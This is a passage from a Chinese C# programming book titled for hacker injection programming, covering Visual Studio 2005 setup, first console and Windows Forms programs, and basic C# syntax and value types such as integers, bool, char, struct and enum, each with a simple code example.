

图 5 开始安装

“解决方案资源管理器”中可以浏览当前程序中的文件，可以对解决方案的各元素进行组织和编辑。

起始页中最近的项目区域下方有“打开”与“创建”两个选项，其后均有“项目”与“网站”两个超链接。“项目”超链接用于打开已有项目（包括网站）或创建新的项目，“网站”则专门用于打开或创建 Web 应用程序。

起始页的其他三个区域为联机资源超链接区域，主要用于查找 Visual Studio 资源。如果安装了 MSDN 并且连接因特网，则可以通过这三个区域查找本机和因特网上的 Visual Studio 资源。

单击“文件”菜单，有三个新建类型的命令——“新建项目”“新建网站”“新建文件”。

“新建项目”主要用来新建控制台应用程序（Console）和 Windows 窗体应用程序（Windows Form），“新建网站”主要用来创建 Web 应用程序。

#### 2.3 第一个 Windows Console 应用程序

Windows Console 应用程序就是控制台应用程序。我们开始创建第一个控制台应用程序，具体步骤如下：

打开 VS2005，打开“文件→新建→项目”，打开新建项目的模板，主要包括项目类型、项目模板、项目属性三部分，如图 7 所示。

在模板里面选择“控制台应用程序（Console Application）”，在名称里面修改名字为 firstApp。单击“确定”，来到 VS2005 工具界面，主要包括：菜单栏、工具栏、解决方案资源管理器、代码区、工具箱、输出窗口，如图 8 所示。



图 7 新建项目的模板

在代码区 Main 函数内添加代码：

```csharp
Console.Write("My First Console Application");
```

最后按“Ctrl+F5”编译运行，运行效果如图 9 所示。



图 8 VS2005 主界面

在 Windows Console 程序中，存在一个 Main 函数，作为主程序的入口函数。不管程序有多少代码和函数，程序总是从这里开始执行。控制台应用程序没有程序界面窗口，所有程序都是后缀名为“cs”的程序文件，默认生成的是“Program.cs”文件。



图 9 控制台应用程序运行结果

#### 2.4 第一个 Windows Form 应用程序

Windows Form 应用程序就是 Windows 窗体应用程序。我们开始创建第一个 Windows 应用程序，具体步骤如下：

打开 VS2005，打开“文件→新建→项目”，打开新建项目的模板，在模板里面选择“Windows 应用程序（Windows Application）”，在名称里面修改名字为 firstWindowsApp，如图 10 所示。

单击“确定”，来到 VS2005 工具界面，如图 11 所示。

我们会发现工具箱中多了很多选项，我们找到一个“Button”，按住鼠标左键不放，将按钮控件拖动到 FORM 对话框中，如图 12 所示。

双击按钮“button1”，VS2005 自动添加函数“button1_Click(object sender, EventArgs e)”，添加函数代码：

```csharp
private void button1_Click(object sender, EventArgs e)
{
    MessageBox.Show("My First Windows Application");
}
```

最后按“Ctrl+F5”编译运行，鼠标点击“button1”按钮，弹出对话框，运行效果如图 13 所示。

在 Windows Form 程序中，程序生成一个“Form1.cs”的文件，这个文件是程序的窗体文件，里面包含了程序的界面设计和功能代码，如上面的函数“button1_Click(object sender, EventArgs e)”弹出对话框的功能就是在这里面。



图 10 新建项目的模板

# 精通 C# 黑客注入编程





### 3 C# 程序设计基础

学习一门语言，不能过于急躁，越是基础的知识越应该好好掌握。下面介绍 C# 语言的数据类型、运算符和流程控制语句。

#### 3.1 C# 程序的组成要素

##### 3.1.1 关键字

在 C# 代码中常常使用关键字，关键字也叫保留字，是对 C# 有特定意义的字符串。关键字在 Visual Studio 环境的代码视图中默认以蓝色显示。例如代码中的 using、class、namespace、static、void 等，均为 C# 的关键字。

##### 3.1.2 命名空间

.NET Framework 类库由命名空间组成。可以这样理解：每个命名空间包含了一组类、结构、枚举、委托和函数等。我们可以通过引用这个命名空间调用里面的这些类或方法。

命名空间就像一个大房子，所有的程序代码都在这个房子里完成。命名空间用关键字“namespace”表示，一般存在于代码的最外层。默认的命名空间名就是项目名。

命名空间有两种：一种是系统命名空间，一种是用户自定义命名空间。

系统命名空间使用 using 关键字导入。System 是 Visual Studio .NET 中最基本的命名空间，在创建项目时，Visual Studio 平台都会自动生成导入该命名空间的语句，并且放在程序代码的起始处。

##### 3.1.3 语句

语句就是 C# 应用程序中执行操作的指令。C# 中的语句必须用分号“;”结束。可以在一行中书写多条语句，也可以将一条语句书写在多行上。

##### 3.1.4 大括号

在 C# 中，大括号“{”和“}”是一种范围标志，用于标识应用程序中逻辑上有紧密联系的一段代码的开始与结束。大括号可以嵌套，以表示应用程序中的不同层次。

##### 3.1.5 注释

C# 中的注释基本有两种：一是单行注释，一是多行注释。单行注释以双斜线“//”开始，不能换行。多行注释以“/*”开始，以“*/”结束，可以换行。例如，我们可以在第一个控制台应用程序的代码中添加注释：

```csharp
// Microsoft 提供的许多有用的类都包含在 System 命名空间中，我们用 using 引入这个命名空间。
using System;

// 引入 System.Collections.Generic 命名空间
using System.Collections.Generic;

// 引入 System.Text 命名空间
using System.Text;

// 用户自定义命名空间 firstApp
namespace firstApp
{
    // 声明类 Program
    class Program
    {
        // 程序入口点 Main 函数，返回类型 void
        static void Main(string[] args)
        {
            /* C# 应用程序的一条语句，用分号“;”结束，这里在命令行窗口中显示 "My First Console Application"。
               Console.Write() 函数包含在 System 命名空间中，我们前面 using 引入这个命名空间。*/
            Console.Write("My First Console Application");
        }
    }
}
```

#### 3.2 C# 基本数据类型

在 C# 中，数据类型可以分为两大部分：值类型和引用类型。值类型包括字符、数值、结构和枚举等；引用类型一般包括类、接口、委托和数组等。

##### 3.2.1 值类型

###### 整数类型

整数类型的变量值为整数。C# 中整数类型有：短字节型（sbyte）、字节型（byte）、短整型（short）、无符号短整型（ushort）、整型（int）、无符号整型（uint）、长整型（long）、无符号长整型（ulong）。划分的依据是该类型变量在内存中所占的位数，位数是按照 2 的指数幂来定义的，比如 8 位整数则它可以表示 2 的 8 次方个数值，即 256。

| 数据类型 | 特征 | 取值范围 |
|---|---|---|
| sbyte | 8 位有符号整数 | -128 到 127 |
| byte | 8 位无符号整数 | 0 到 255 |
| short | 16 位有符号整数 | -32768 到 32767 |
| ushort | 16 位无符号整数 | 0 到 65535 |
| int | 32 位有符号整数 | -2147483648 到 2147483647 |
| uint | 32 位无符号整数 | 0 到 4294967295 |
| long | 64 位有符号整数 | -9223372036854775808 到 9223372036854775807 |
| ulong | 64 位无符号整数 | 0 到 18446744073709551615 |

按照前面介绍的创建第一个 Windows Console 程序，创建一个新的控制台应用程序，命名为“zhengxing_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace zhengxing_test
{
    class Program
    {
        static void Main(string[] args)
        {
            short x = 32766;
            x++;
            Console.WriteLine(x);
            x++;
            Console.WriteLine(x);
        }
    }
}
```



图 14 整数类型代码运行结果

按“Ctrl+F5”编译运行，运行效果如图 14 所示。

###### 布尔类型

布尔类型是用来表示真和假这两个概念的。布尔类型只有两种取值：真或假。在 C# 中分别采用 true 和 false 两个值来表示。在 C 和 C++ 中用 0 来表示假，其他任何非 0 的式子都表示真。在 C# 中 true 值不能被其他任何非零值所代替。如 `bool x = 1;` 是错误的，不存在这种写法，只能写成 `x = true;` 或 `x = false;`。

###### 浮点类型

小数在 C# 中采用两种数据类型来表示：单精度（float）和双精度（double），它们的差别在于取值范围和精度不同。在对精度要求不是很高的浮点数计算中，我们可以采用 float 型，而采用 double 型获得的结果将更为精确。

###### 字符类型

C# 提供的字符类型按照国际上公认的标准，采用 Unicode 字符集。一个 Unicode 标准字符长度为 16 位，用它可以表示世界上大多数语言。Unicode 是一种重要的通用字符编码标准，是继 ASCII 码后的一种新字符编码，如 UTF-16 允许用 16 位字符组合为一百万或更多的字符。可以按以下方法给一个字符变量赋值：

```c
char c = 'A';
```

我们还可以直接通过十六进制转义符前缀 `\x` 或 Unicode 表示法给字符型变量赋值，下面对字符型变量的赋值写法都是正确的：

```c
char c = '\x0032';
char c = '\u0032';
```

在 C 和 C++ 中，字符型变量的值是该变量所代表的 ASCII 码，字符型变量的值是一个整数，可以对字符型变量使用整数进行赋值和运算，但在 C# 中是不允许这样的。C# 中仍然存在转义符，用来在程序中指代特殊的控制字符：

| 转义符 | 字符名 |
|---|---|
| \\' | 单引号 |
| \" | 双引号 |
| \\ | 反斜杠 |
| \0 | 空字符 |
| \a | 响铃（Alert） |
| \b | 退格 |
| \f | 换页 |
| \n | 新行 |
| \r | 回车 |
| \t | 水平 Tab |
| \v | 垂直 Tab |

###### 结构类型

利用上面介绍过的数据类型，进行一些常用的数据运算、文字处理已经足够了。但是我们会经常碰到一些更为复杂的数据类型，比如通讯录中可以包含姓名、电话和地址，如果按照前面介绍的类型需要定义三个变量。这样工作量很大，也不够直观。我们可以用一个结构……

## 精通C#黑客注入编程

类型来处理，比如可以定义通讯录记录为结构类型：

```csharp
struct PhoneBook
{
    public string name;
    public string phone;
    public string address;
}
PhoneBook p1;
```

p1 就是一个 PhoneBook 结构类型的变量，上面的 public 表示对结构类型成员的访问权限。对结构成员的访问是通过结构变量名加上访问符“.”再跟成员的名称，如 `p1.name = "pois0n";`。

我们创建一个新的控制台应用程序，命名为“struct_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace struct_test
{
    class Program
    {
        struct phoneBook
        {
            public string name;
            public string phone;
            public string address;
        }
        static void Main(string[] args)
        {
            phoneBook p1;
            p1.name = "pois0n";
            p1.phone = "15902112345";
            p1.address = "shanghai";
            Console.WriteLine(p1.name);
            Console.WriteLine(p1.phone);
            Console.WriteLine(p1.address);
        }
    }
}
```



按“Ctrl+F5”编译运行，效果如图15所示。

###### 枚举类型

枚举 enum 实际上是为一组在逻辑上密不可分的整数值提供便于记忆的符号。比如，我们声明一个代表星期的枚举类型的变量：

```csharp
enum WeekDay
{
    Sunday, Monday, Tuesday, Wednesday, Thursday, Friday, Saturday
};
WeekDay day;
```

枚举类型的变量在某一时刻只能取枚举中某一个元素的值。比如 day 这个表示星期的枚举类型变量，它在一个时刻只能代表具体的某一天，不能既是星期二又是星期三（`day = Tuesday;`）。

我们创建一个新的控制台应用程序，命名为“enum_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace enum_test
{
    class Program
    {
        enum weekDay
        {
            Sunday, Monday, Tuesday, Wednesday,
            Thursday, Friday, Saturday
        }
        static void Main(string[] args)
        {
            weekDay poisOnDay;
            poisOnDay = weekDay.Sunday;
            Console.WriteLine(poisOnDay);
        }
    }
}
```



图16 枚举类型代码运行结果

按“Ctrl+F5”编译运行，运行效果如图16所示。

##### 3.2.2 引用类型

